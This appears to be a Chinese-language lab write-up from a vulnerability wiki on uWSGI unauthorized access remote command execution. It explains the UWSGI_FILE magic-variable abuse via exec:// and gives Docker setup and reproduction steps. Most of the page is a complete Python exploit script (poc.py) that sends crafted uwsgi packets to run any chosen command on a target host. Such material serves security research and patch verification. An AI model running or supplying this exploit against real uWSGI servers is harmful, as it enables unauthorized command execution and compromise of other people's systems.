


uWSGI 未授权访问漏洞¶
漏洞描述¶
uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言，通常被用于运行Python WEB应用。uwsgi除了是应用容器的名称之外，它和Fastcgi之类的一样，也是前端server与后端应用容器之间的一个交流标准。目前nginx，apache也支持uwsgi协议进行代理转发请求。
uWSGI支持通过魔术变量（Magic Variables）的方式动态配置后端Web应用。如果其端口暴露在外，攻击者可以构造uwsgi数据包，并指定魔术变量UWSGI_FILE，运用exec://协议执行任意命令。
参考链接：
- https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md
- https://xz.aliyun.com/t/3512
- https://uwsgi-docs.readthedocs.io/en/latest/Vars.html
环境搭建¶
执行如下命令启动nginx+uwsgi环境：
docker-compose up -d
环境启动后，访问http://your-ip:8080即可查看一个Web应用，其uwsgi暴露在8000端口。
漏洞复现¶
使用poc.py，执行命令python poc.py -u your-ip:8000 -c "touch /tmp/awesome_poc"：

执行docker-compose exec web bash进入容器，可见/tmp/awesome_poc已经成功执行：

漏洞POC¶
#!/usr/bin/python
# coding: utf-8
######################
# Uwsgi RCE Exploit
######################
# Author: wofeiwo@80sec.com
# Created: 2017-7-18
# Last modified: 2018-1-30
# Note: Just for research purpose
import sys
import socket
import argparse
import requests
def sz(x):
s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
return s[::-1]
def pack_uwsgi_vars(var):
pk = b''
for k, v in var.items() if hasattr(var, 'items') else var:
pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
result = b'\x00' + sz(pk) + b'\x00' + pk
return result
def parse_addr(addr, default_port=None):
port = default_port
if isinstance(addr, str):
if addr.isdigit():
addr, port = '', addr
elif ':' in addr:
addr, _, port = addr.partition(':')
elif isinstance(addr, (list, tuple, set)):
addr, port = addr
port = int(port) if port else port
return (addr or '127.0.0.1', port)
def get_host_from_url(url):
if '//' in url:
url = url.split('//', 1)[1]
host, _, url = url.partition('/')
return (host, '/' + url)
def fetch_data(uri, payload=None, body=None):
if 'http' not in uri:
uri = 'http://' + uri
s = requests.Session()
# s.headers['UWSGI_FILE'] = payload
if body:
import urlparse
body_d = dict(urlparse.parse_qsl(urlparse.urlsplit(body).path))
d = s.post(uri, data=body_d)
else:
d = s.get(uri)
return {
'code': d.status_code,
'text': d.text,
'header': d.headers
}
def ask_uwsgi(addr_and_port, mode, var, body=''):
if mode == 'tcp':
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(parse_addr(addr_and_port))
elif mode == 'unix':
s = socket.socket(socket.AF_UNIX)
s.connect(addr_and_port)
s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
response = []
# Actually we dont need the response, it will block if we run any commands.
# So I comment all the receiving stuff.
# while 1:
# data = s.recv(4096)
# if not data:
# break
# response.append(data)
s.close()
return b''.join(response).decode('utf8')
def curl(mode, addr_and_port, payload, target_url):
host, uri = get_host_from_url(target_url)
path, _, qs = uri.partition('?')
if mode == 'http':
return fetch_data(addr_and_port+uri, payload)
elif mode == 'tcp':
host = host or parse_addr(addr_and_port)[0]
else:
host = addr_and_port
var = {
'SERVER_PROTOCOL': 'HTTP/1.1',
'REQUEST_METHOD': 'GET',
'PATH_INFO': path,
'REQUEST_URI': uri,
'QUERY_STRING': qs,
'SERVER_NAME': host,
'HTTP_HOST': host,
'UWSGI_FILE': payload,
'SCRIPT_NAME': target_url
}
return ask_uwsgi(addr_and_port, mode, var)
def main(*args):
desc = """
This is a uwsgi client & RCE exploit.
Last modifid at 2018-01-30 by wofeiwo@80sec.com
"""
elog = "Example：uwsgi_exp.py -u 1.2.3.4:5000 -c \"echo 111>/tmp/abc\""
parser = argparse.ArgumentParser(description=desc, epilog=elog)
parser.add_argument('-m', '--mode', nargs='?', default='tcp',
help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
dest='mode', choices=['http', 'tcp', 'unix'])
parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
dest='uwsgi_addr')
parser.add_argument('-c', '--command', nargs='?', required=True,
help='Command: The exploit command you want to execute, must have this.',
dest='command')
if len(sys.argv) < 2:
parser.print_help()
return
args = parser.parse_args()
if args.mode.lower() == "http":
print("[-]Currently only tcp/unix method is supported in RCE exploit.")
return
payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
print("[*]Sending payload.")
print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
if __name__ == '__main__':
main()